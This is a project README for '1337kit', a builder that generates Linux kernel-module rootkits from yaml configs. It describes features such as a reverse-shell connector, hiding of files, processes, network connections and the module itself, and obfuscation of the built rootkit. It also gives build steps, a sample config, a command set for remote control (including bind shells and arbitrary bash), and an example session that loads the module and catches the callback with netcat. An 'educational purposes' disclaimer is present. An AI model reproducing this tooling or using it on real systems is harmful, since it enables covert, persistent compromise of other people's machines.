


# 1337kit - LKM Rootkit Builder



## About project

1337kit is 64-bit LKM Rootkit builder based on yaml prescription

Fully tested on: Linux 5.11.0-34-generic 20.04.1-Ubuntu x86_64 x86_64 x86_64 GNU/Linux

### DISCLAIMER: FOR EDUCATIONAL AND INFORMATIONAL PURPOSES ONLY

This project is for malware analysts and for creator of CTF or cyber security exercises, with this builder you can build your custom rootkit for your exercise

**I do not take any responsibility for usage of this project**

### Rootkit Features

* RevShell based connector
* Hiding dents (files, files prefixes, process ids)
* Hiding connections based on Ports in TCP Connection (IPv4 and IPv6)
* Hiding connections based on IP in TCP Connection (IPv4)
* Hiding connections based on Ports in UDP Connection (IPv4 and IPv6)
* Hiding connections based on IP in UDP Connection (IPv4)
* Spawning scripts to user-space
* Hiding module from module list

### Builder Features

* Files and functions obfuscation
* Strings encryption
* Verbose building

## Installation

Builder requirements:

```sh
$ pip3 install -r requirements.txt
```
Install requirements for building LKM:

```sh
sudo apt-get install build-essential linux-headers-$(uname -r)
```
## Usage

You have to create your yaml prescription for custom rootkit,
Example of full prescription (every option can be omitted):

```yaml
hideme: true
connector:
    ip: "127.0.0.1"
    port: "8080"
hide_dent: # Here you can put all your files, directories and process id you want to hide from user
    - "91746"
    - "1337test_"
hide_tcp_port:
    - "8080"
    - "1337"
hide_tcp_ip:
    - "127.0.0.1"
    - "8.8.8.8"
hide_udp_port:
    - "8080"
    - "1337"
hide_udp_ip:
    - "127.0.0.1"
    - "8.8.8.8"
shells:
    - "sleep 1000"
```

After you create your yaml just run the builder.py

```sh
$ python3 builder.py --help
usage: builder.py [-h] -c CONFIG [-v] [-o] [-s]

Generate rootkit from yaml prescription

optional arguments:
  -h, --help            show this help message and exit
  -c CONFIG, --config CONFIG
                        Yaml prescription file
  -v, --verbose         Debug Mode
  -o, --obfuscate_files
                        Enable rootkit symbols obfuscation
  -s, --obfuscate_strings
                        Enable rootkit strings obfuscation
```



And rootkit will be created.

another way to execute your hiding or shell script is connector, if you enable your connector, rev-sell connection is created to your defined IP and Port, after this it will try open connection every x second. After connection is opened multiple commands can be send:

* HIDEME
* SHOWME
* HIDE_DENT
* SHOW_HIDDEN_DENT
* HIDE_TCP_PORT
* SHOW_HIDDEN_TCP_PORT
* HIDE_TCP_IP
* SHOW_HIDDEN_TCP_IP
* HIDE_UDP_PORT
* SHOW_HIDDEN_UDP_PORT
* HIDE_UDP_IP
* SHOW_HIDDEN_UDP_IP
* BINDSHELL_CREATE
* RUN_CUSTOM_BASH

## Additional Information

tcp_seq_show.c file in hooker is pretty much same as udp_seq_show, but i split it if anyone need some own modification for either of protocols

## Future Features

* TCP and UDP IPv6 hiding
* AES Encryption support

### Examples

```sh
$ python3 builder.py --config testfiles/config.yml
$ sudo insmod project.ko
$ nc -lvnp 1337
 Listening on 0.0.0.0 8080
 Connection received on 127.0.0.1 39040
 RUN_CUSTOM_BASH sleep 1000
```


